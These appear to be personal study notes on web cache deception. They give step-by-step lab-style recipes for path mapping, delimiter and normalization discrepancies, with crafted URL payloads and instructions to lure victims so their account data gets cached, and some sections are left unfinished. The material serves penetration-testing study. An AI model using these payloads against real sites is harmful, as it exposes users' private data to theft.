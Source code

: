 # Web cache deception

Web cache deception is a vulnerability where an attacker tricks a web cache into storing sensitive content due to differences in how cache and origin servers handle requests. The attacker lures a victim into visiting a malicious URL, causing the cache to mistakenly store private data as a static resource. The attacker can then access the cached response, gaining unauthorized access to the sensitive information.

More info about web cache: [web-cache.md](../web-security/web-cache.md "mention")

## <mark style="color:yellow;">Constructing a web cache deception attack</mark> <a href="#constructing-a-web-cache-deception-attack" id="constructing-a-web-cache-deception-attack"></a>

1. Identify a target endpoint that returns dynamic responses with sensitive information, focusing on those supporting GET, HEAD, or OPTIONS methods, as they are typically cached
2. Look for discrepancies in how the cache and origin server parse the URL path
3. Craft a malicious URL to trick the cache into storing a dynamic response. When the victim accesses it, their data is cached. Use Burp to request the same URL and retrieve the cached response. Avoid using a browser to prevent redirects or data invalidation.

## <mark style="color:yellow;">Static extension cache rules</mark>

Cache rules often target static resources by matching common file extensions like `.css` or `.js`. This is the default behavior in most CDNs.

### <mark style="color:yellow;">Path mapping discrepancies</mark> <a href="#exploiting-path-mapping-discrepancies" id="exploiting-path-mapping-discrepancies"></a>

<details>

<summary>Path mapping discrepancies (REST-style vs traditional URL)</summary>

Consider the following example:

`http://example.com/user/123/profile/wcd.css`

* An origin server using **REST-style** URL mapping may interpret this as a request for the `/user/123/profile` endpoint and returns the profile information for user `123`, ignoring `wcd.css` as a non-significant parameter.
* A cache that uses **traditional URL** mapping may view this as a request for a file named `wcd.css` located in the `/profile` directory under `/user/123`. It interprets the URL path as `/user/123/profile/wcd.css`. If the cache is configured to store responses for requests where the path ends in `.css`, it would cache and serve the profile information as if it were a CSS file.

</details>

<pre class="language-python"><code class="lang-python"># 1. Find good endpoint
/my-account        # Contains sensitive data -> Good endpoint
<strong>
</strong># 2. Check if web cache is used
/test.js # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
/test.js # 2 time "X-Cache: hit" -> Perfect, the page is cached
<strong>
</strong><strong># 3. Check if origin server uses REST-style
</strong><strong>/my-account/abc    # The response is identical to the original -> REST-style
</strong><strong>
</strong><strong># 4. Check if cache server uses traditional URL &#x26; explotation
</strong>/my-account/abc.js # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
/my-account/abc.js # 2 time "X-Cache: hit" -> Perfect, the page is cached
# Now https://site.com/my-account/abc.js contains your sensitive data cached

# Find a way to send the victim on http://site.com/my-account/xyz.js
# Note: I omitted cache buster for for simplicity
</code></pre>

{% hint style="info" %}
**Note**:&#x20;

* This attack is limited to the specific endpoint that you tested, as the origin server often has different abstraction rules for different endpoints.
* Try various extensions, such as `.css`, `.ico`, and `.exe`, as caches may have rules for specific extensions.
{% endhint %}

### <mark style="color:yellow;">Delimiter discrepancies</mark> <a href="#exploiting-delimiter-discrepancies" id="exploiting-delimiter-discrepancies"></a>

<details>

<summary>Delimiter discrepancies</summary>

to do

</details>

Objective: identify a character that is used as a delimiter by the origin server but not the cache. Use this list: [https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list](https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list)

<pre class="language-python"><code class="lang-python"># 1. Find good endpoint
/my-account        # Contains sensitive data -> Good endpoint

# 2. Check if web cache is used
/test.js # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
/test.js # 2 time "X-Cache: hit" -> Perfect, the page is cached

# 3. Fuzz delimeter char
/my-account§§aaa   # Fuzz delimeter char. -> with ";" -> The response matches the original

# 4. Check if delimiter is not used by the cache
/my-account         # "X-Cache: miss"
/my-account;abc.js  # "X-Cache: miss"
# So the cache thinks "/my-account" is different from "/my-account;abc.js"

# 5. Exploitation
<strong>/my-account;abc.js # 1 time "X-Cache: miss"
</strong>/my-account;abc.js # 2 time "X-Cache: hit"
# Now https://site.com/my-account;abc.js contains your sensitive data cached

# Find a way to send the victim on http://site.com/my-account;xyz.js
# Note: I omitted cache buster for for simplicity
</code></pre>

{% hint style="info" %}
**Note**:&#x20;

* Because delimiters are generally used consistently within each server, you can often use this attack on many different endpoints.
*   Some delimiter characters may be processed by the victim's browser before it forwards the request to the cache. This means that some delimiters can't be used in an exploit. For example, browsers URL-encode characters like `{`, `}`, `<`, and `>`, and use `#` to truncate the path.

    If the cache or origin server decodes these characters, it may be possible to use an encoded version in an exploit.
* Make sure to test all ASCII characters and a range of common extensions, including `.css`, `.ico`, and `.exe`
{% endhint %}

### <mark style="color:yellow;">Exploiting delimiter decoding discrepancies</mark> <a href="#exploiting-delimiter-decoding-discrepancies" id="exploiting-delimiter-decoding-discrepancies"></a>

to understand

## <mark style="color:yellow;">Static directory cache rules (normalization discrepancies)</mark> <a href="#exploiting-static-directory-cache-rules" id="exploiting-static-directory-cache-rules"></a>

Web servers often store static resources in specific directories. Cache rules typically target these by matching URL path prefixes like `/static`, `/assets`, `/scripts`, or `/images`.

Premise

* If you type in your browser `https://website/test/../account`, it'll make the following request `GET /account HTTP/2`. &#x20;
* If you type in your browser`https://website/test/..%2faccount`, it'll make the following request `GET /test/..%2faccount HTTP/2`. &#x20;

<pre class="language-python"><code class="lang-python"># 1. Find good endpoint
/my-account            # Contains sensitive data -> Good endpoint

# 2. Check if web cache is used (with static resources)
<strong>/static/js/info.js     # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
</strong>/static/js/info.js     # 2 time "X-Cache: hit" -> Perfect, the page is cached
</code></pre>

### <mark style="color:yellow;">Normalization by the origin server</mark> <a href="#exploiting-normalization-by-the-origin-server" id="exploiting-normalization-by-the-origin-server"></a>

<pre class="language-python"><code class="lang-python"># 3. Confirm that the cache rule is based on the static directory
/static/../xxx         # 1 time "X-Cache: miss"
/static/../xxx         # 2 time "X-Cache: hit" -> so all subpages in /static/ will be cached 

# 4. Detecting normalization by the origin server
/aaa/..%2fmy-account   # Returns the profile information -> The origin server decodes the slash and resolves the dot-segment

# 5. Detecting normalization by the cache server
/static/js/info.js     # 1 time "X-Cache: miss"
<strong>/static/js%2finfo.js   # 2 time "X-Cache: miss" -> Cache isn't normalizing the path before mapping it to the endpoint
</strong># So the cache thinks "/static/js/info.js" is different from "/static/js%2finfo.js"

# 6. Exploiting
/static/..%2fmy-account

# The cache interprets the path as: /static/..%2fmy-account
<strong># The origin server interprets the path as: /my-account
</strong></code></pre>

### <mark style="color:yellow;">Normalization by the cache server</mark>

<pre class="language-python"><code class="lang-python"># 3. Confirm that the cache rule is based on the static directory
# This step is useless, so you can't confirm if the cache decodes 
# dot-segments and URL paths without trying an exploit.
<strong>
</strong><strong># 4. Detecting normalization by the origin server
</strong>/aaa/..%2fmy-account   # Not found -> The origin server doesn't decode the slash and doesn't resolve the dot-segment

# 5. Detecting normalization by the cache server
/static/js/info.js     # 1 time "X-Cache: miss"
/static/js/info.js     # 2 time "X-Cache: hit"
/static/js%2finfo.js   # 2 time "X-Cache: hit" -> Cache has normalized the path
# So the cache understand that they are the same path

# 6. Identify a delimiter that is used by the origin server but not the cache
/my-account§§aaa   # Fuzz delimeter char. -> with "%23" -> The response matches the original

# 7. Check if delimiter is not used by the cache 
/static/js/info.js        # "X-Cache: miss"
/static/js/info.js%23aaa  # "X-Cache: miss"
# So the cache thinks "info.js" is different from "info.js%23aaa"

# 8. Exploitation
/my-account%23%2f%2e%2e%2fstatic/js/info.js

# The cache interprets the path as: /static
# The origin server interprets the path as: /my-account
</code></pre>
